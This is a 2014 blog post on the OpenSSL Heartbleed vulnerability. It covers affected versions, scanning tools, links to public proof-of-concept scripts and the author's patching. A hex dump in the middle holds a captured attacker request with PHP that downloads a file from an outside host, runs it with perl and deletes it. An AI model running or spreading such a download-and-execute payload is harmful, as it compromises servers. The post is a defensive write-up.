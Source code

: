 ```yaml
---
layout: post
title: "1f j00 R R34d1N 7h12 m3m0ry j00 R pWN3D"
date: 2014-04-10 12:05:03 -0500
comments: false
categories:
- Networking
- Security
- Programming
- SSL
- ISP
image:
  feature: https://ciscodude.net/static/blog-img/snow-dust.jpg
  credit: Theo Baschak
  creditlink: https://www.flickr.com/photos/theodorebaschak/
---
```

Another huge blunder this week in the ubiquitous OpenSSL library [secadv](https://www.openssl.org/news/secadv_20140407.txt). This one's called [Heartbleed](http://heartbleed.com/). You can easily check if your services are vulnerable at [filippo.io/Heartbleed](http://filippo.io/Heartbleed/). This one is particularly scary as it allows reading random private memory directly from the server/device/etc. This may include decrypted SSL transactions, certs, private keys, and other random memory. So far I have only seen other SSL requests, and public certificate chains from my own devices.

XKCD has a comic which [explains Heartbleed](http://xkcd.com/1354/) VERY well.

The implications are huge. Luckily it only affects OpenSSL 1.0.1 to 1.0.1f (and some beta 1.0.2 versions.. but you'd never run beta in production right?). 1.0.1g is not affected. Older versions are OK here as well. So my recent push for [Upgraded SSL Ciphers](/2014/01/12/ssl-ciphers/) bit me in the ass. Some of the various devices affected are included in this [advisory from NSCS-FI](https://www.cert.fi/en/reports/2014/vulnerability788210.html). There are a lot of devices which use OpenSSL. There are many, many Linux/BSD distributions which shipped vulnerable OpenSSL packages/libs as well. Again, like the other SSL problems earlier this year, there will be implications from this for a long time because all sorts of embedded systems and devices won't get updated (potentially ever).

If you need to mass-scan your network(s), nmap has a [script for that](https://svn.nmap.org/nmap/scripts/ssl-heartbleed.nse) [docs here](http://nmap.org/nsedoc/scripts/ssl-heartbleed.html).

Here is an interesting chunk of memory pulled from a vulnerable firewall using one of several [widely](https://ccdn.tracetracker.com/ssltest.py) [available](https://gist.github.com/siboulet/10154829) [ssltest.py](https://github.com/musalbas/heartbleed-masstest/blob/master/ssltest.py) POCs. This is someone elses encrypted request body. Someone, or more likely something pretending to be a Googlebot, and sending a php file attachment with some badness in it. I would not recommend running the below hex decoded PHP code in the request, nor downloading the f.txt (and especially not executing it), unless you are a malware researcher.

{% highlight text %}
  0200: 70 61 74 69 62 6C 65 3B 20 47 6F 6F 67 6C 65 62  patible; Googleb
  0210: 6F 74 2F 32 2E 31 3B 20 2B 68 74 74 70 3A 2F 2F  ot/2.1; +http://
  0220: 77 77 77 2E 67 6F 6F 67 6C 65 2E 63 6F 6D 2F 62  www.google.com/b
  0230: 6F 74 2E 68 74 6D 6C 29 0D 0A 43 6F 6E 74 65 6E  ot.html)..Conten
  0240: 74 2D 54 79 70 65 3A 20 61 70 70 6C 69 63 61 74  t-Type: applicat
  0250: 69 6F 6E 2F 78 2D 77 77 77 2D 66 6F 72 6D 2D 75  ion/x-www-form-u
  0260: 72 6C 65 6E 63 6F 64 65 64 0D 0A 43 6F 6E 74 65  rlencoded..Conte
  0270: 6E 74 2D 4C 65 6E 67 74 68 3A 20 32 35 31 0D 0A  nt-Length: 251..
  0280: 0D 0A 3C 3F 70 68 70 20 65 63 68 6F 20 22 43 6F  ..<?php echo "Co
  0290: 6E 74 65 6E 74 2D 54 79 70 65 3A 74 65 78 74 2F  ntent-Type:text/
  02a0: 68 74 6D 6C 5C 72 5C 6E 5C 72 5C 6E 22 3B 65 63  html\r\n\r\n";ec
  02b0: 68 6F 20 22 62 75 6E 34 22 2E 70 68 70 5F 75 6E  ho "bun4".php_un
  02c0: 61 6D 65 28 29 2E 22 73 74 30 70 22 3B 73 79 73  ame()."st0p";sys
  02d0: 74 65 6D 28 22 63 64 20 2F 74 6D 70 3B 77 67 65  tem("cd /tmp;wge
  02e0: 74 20 77 67 65 74 20 68 74 74 70 3A 2F 2F 77 77  t wget http://ww
  02f0: 77 2E 63 6F 72 64 6F 62 79 74 65 2E 63 6F 6D 2F  w.cordobyte.com/
  0300: 66 2E 74 78 74 3B 63 75 72 6C 20 2D 4F 20 68 74  f.txt;curl -O ht
  0310: 74 70 3A 2F 2F 77 77 77 2E 63 6F 72 64 6F 62 79  tp://www.cordoby
  0320: 74 65 2E 63 6F 6D 2F 66 2E 74 78 74 3B 66 65 74  te.com/f.txt;fet
  0330: 63 68 20 68 74 74 70 3A 2F 2F 77 77 77 2E 63 6F  ch http://www.co
  0340: 72 64 6F 62 79 74 65 2E 63 6F 6D 2F 66 2E 74 78  rdobyte.com/f.tx
  0350: 74 3B 70 65 72 6C 20 66 2E 74 78 74 3B 70 65 72  t;perl f.txt;per
  0360: 6C 20 66 2E 74 78 74 3B 72 6D 20 2D 72 66 20 66  l f.txt;rm -rf f
  0370: 2E 2A 22 29 3B 65 78 69 74 3B 20 3F 3E 87 5C 06  .*");exit; ?>.\.
  0380: 85 8C 9C E2 46 93 40 CF 62 D0 F7 E7 B4 4A AB 3A  ....F.@.b....J.:
  0390: 80 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E 0E  ................
{% endhighlight %}

**Update several days later**:

So the majority of the pain is over. Systems are patched and updated. Passwords changed. Certificates reissued (this was surprisingly easy!) and re-installed on various devices. Luckily for my usage, all of my OpenSSL 1.0.1 systems had PFS enabled, so private data should be private.
